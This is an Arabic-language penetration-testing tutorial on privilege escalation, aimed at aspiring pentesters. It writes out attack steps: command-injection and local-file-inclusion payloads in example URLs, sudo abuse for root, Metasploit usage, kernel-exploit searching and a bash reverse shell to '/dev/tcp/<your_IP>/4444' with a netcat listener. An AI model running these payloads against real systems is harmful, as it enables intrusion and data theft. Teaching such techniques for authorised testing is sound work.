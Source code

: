 # **1. تعريف Privilege Escalation (تصعيد الصلاحيات)**

## **الشرح العميق:**
ال Privilege Escalation (تصعيد الصلاحيات) هو عملية يحاول فيها المهاجم أو المخترق ياخد صلاحيات أعلى من اللي عنده على نظام أو تطبيق. يعني لو دخلت على جهاز كمستخدم عادي (limited user)، بتحاول توصل لصلاحيات المسؤول (Administrator أو root) عشان تقدر تتحكم في كل حاجة. فيه نوعين رئيسيين:

1. **Vertical Privilege Escalation:** من مستخدم عادي لمستخدم بصلاحيات عالية (زي root أو admin).
2. **Horizontal Privilege Escalation:** من مستخدم عادي لمستخدم عادي تاني لكن بصلاحيات مختلفة (زي الوصول لحساب مستخدم تاني).


في سياق الويب، ده بيحصل لما تطبيق ويب (زي موقع) فيه ثغرة تسمح للمستخدم العادي يعدّل أو يتحكم في حاجات المفروض تكون للأدمن بس، زي تغيير بيانات، تشغيل أوامر، أو الوصول لملفات حساسة.

## **الأدوات والأوامر العملية:**

### 1. **فحص المستخدم الحالي:**

   - لو على لينكس:   `id`
   
     - مثال نتيجة: `uid=1000(user) gid=1000(user) groups=1000(user)`
     - لو root: `uid=0(root)`.


   - لو على ويندوز:  `whoami`

     - مثال: `user-pc\user` (مستخدم عادي) أو `nt authority\system` (أعلى صلاحية).

### 2. **محاولة تصعيد يدوي بسيط:**

   - على لينكس: `sudo -l`

     - بيوريك الأوامر اللي ممكن تشغلها كـ root لو كان عندك إذن.


   - مثال: لو لقيت `(root) NOPASSWD: /bin/bash`، شغل `sudo /bin/bash` وهتبقى root.

### 3. **في الويب (مثال ثغرة):**

   - لو موقع فيه ثغرة Parameter Tampering:
     - افترض رابط زي: `http://example.com/profile?user_id=123`
     - عدّل الـ ID لـ `user_id=1` (غالبًا Admin) وشوف لو بيفتح حساب الأدمن.

## **خلاصة للطفل:**
"زي لما تكون ضيف في بيت وتقدر تدخل المطبخ بس، لكن تلاقي طريقة تدخل بيها أوضة صاحب البيت وتتحكم في كل حاجة! تصعيد الصلاحيات يعني تاخد مفتاح أكبر من اللي معاك."

---

# **2. تأثير Privilege Escalation على أمان الويب**

## **الشرح العميق:**
لما يحصل تصعيد صلاحيات في تطبيق ويب، التأثير بيكون خطير جدًا لأن المهاجم بيقدر يعمل حاجات زي:

- **سرقة بيانات حساسة:** زي بيانات المستخدمين أو كلمات السر.
- **تعديل الموقع:** يغير محتوى الصفحات أو يضيف أكواد ضارة.
- **التحكم في السيرفر:** لو وصل لصلاحيات root/admin على السيرفر بتاع الموقع، يقدر يشغل أوامر أو يدمر النظام كله.
- **الهجمات الممتدة:** يستخدم الموقع كقاعدة لمهاجمة أنظمة تانية.

الثغرات اللي بتؤدي لتصعيد الصلاحيات في الويب بتكون زي ضعف التحقق من الهوية (Broken Authentication)، سوء الإعدادات (Misconfiguration)، أو حقن الأوامر (Command Injection).

## **الأدوات والأوامر العملية:**

### 1. **Command Injection في الويب:**
   - لو موقع بياخد إدخال منك وينفذه:
     - رابط: `http://example.com/ping?ip=127.0.0.1`
     - جرب: `http://example.com/ping?ip=127.0.0.1; whoami`
     - لو رجعلك اسم المستخدم (زي www-data)، يبقى فيه ثغرة.

### 2. **Local File Inclusion (LFI) لتصعيد:**
   - رابط: `http://example.com?page=about.php`
   - جرب: `http://example.com?page=/etc/passwd`
     - لو ظهر ملف passwd، حاول تصعيد بـ:
     - `http://example.com?page=/proc/self/environ` (تشوف بيئة النظام).



### 3. **Metasploit لاستغلال ثغرة:**
   - لو لقيت ثغرة في خدمة ويب:
     - `msfconsole`
     - `use exploit/multi/http/<module_name>`
     - `set RHOST <IP>`
     - `exploit`
   - لو نجحت، هتاخد shell وتقدر تصعد صلاحيات.

#### **خلاصة للطفل:**
"لما تتحكم في موقع، زي لما تكون لعبت لعبة واخدت كل القوة! المهاجم بيقدر يسرق حاجات، يخرب البيت، أو يتحكم في كل حاجة لو لقى الباب مفتوح."

---

# **3. ليه مهم نفهم ده وإزاي نستغله؟**

- **الهدف:** لو اختبرت موقع (كـ Pentester)، لازم تعرف الثغرات اللي ممكن تؤدي لتصعيد وتستغلها عشان تثبت خطورتها.
- **مثال عملي:** لو لقيت Command Injection، ممكن تشغل أوامر زي `whoami` أو `id`، وبعدها تبحث عن طريقة تصير root.
- **أدوات إضافية:**
  - `searchsploit`:
    - `searchsploit php 7.2 command injection`
    - بيطلعلك ثغرات مرتبطة بالإصدار.

#### **خلاصة للطفل:**
"لما تعرف إزاي تدخل وتتحكم، بتبقى زي بطل خارق بيقدر يفتح كل الأبواب ويثبت إن البيت مش أمان!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الموقع**
- استخدم Nmap لفحص السيرفر:
  - `nmap -sV 192.168.1.10`
- افترض النتيجة:
  - Port 80: Apache 2.4.29
  - Port 22: OpenSSH 5.3

## **الخطوة 2: اختبار ثغرات الويب**
- جرب Command Injection:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id`
  - لو رجعلك `uid=33(www-data)`، يبقى فيه ثغرة.
- جرب LFI:
  - `http://192.168.1.10?page=/etc/passwd`
  - لو ظهر الملف، ابحث عن ملفات زي `/var/www/html/config.php` لكلمات سر.

## **الخطوة 3: استغلال الثغرة**
- لو لقيت Command Injection:
  - أضف أمر زي: `; /bin/bash -i >& /dev/tcp/<your_IP>/4444 0>&1`
  - شغل Netcat على جهازك: `nc -lvnp 4444`
  - لو نجح، هتاخد shell.

## **الخطوة 4: تصعيد الصلاحيات**
- على الـ Shell:
  - `id` (تشوف مين أنت، مثلاً www-data).
  - `sudo -l` (تشوف لو فيه أوامر بصلاحيات root).
  - لو لقيت مثلاً `sudo /bin/bash`، شغله وهتبقى root.
- لو مفيش sudo:
  - ابحث عن Kernel Exploit:
    - `uname -r` (تعرف إصدار النواة، زي 2.6.32).
    - `searchsploit linux kernel 2.6.32`
    - نزل السكربت وشغله على السيرفر.

## **الخطوة 5: توثيق وتنظيف**
- سجل كل خطوة (لتقرير الـ Pentest).
- لو خلّصت، امسح أي أثر (زي السكربتات) لو ده جزء من الاتفاق.

## **خلاصة للطفل:**
"زي لما تلعب لعبة مغامرات: تدور على الثغرة زي كنز، تستخدمها عشان تفتح الباب الكبير، وتصير الملك بتاع الموقع!"

---

# **الخلاصة النهائية:**
Privilege Escalation هو مفتاح التحكم الكامل في نظام أو موقع. في الويب، بتدور على ثغرات زي Command Injection أو LFI، وبعدين تستغلها عشان تاخد shell وتصعد لصلاحيات أعلى. بالأدوات زي Nmap، Netcat، وMetasploit، تقدر تكتشف وتستغل كل نقطة ضعف بسهولة لو خططت صح!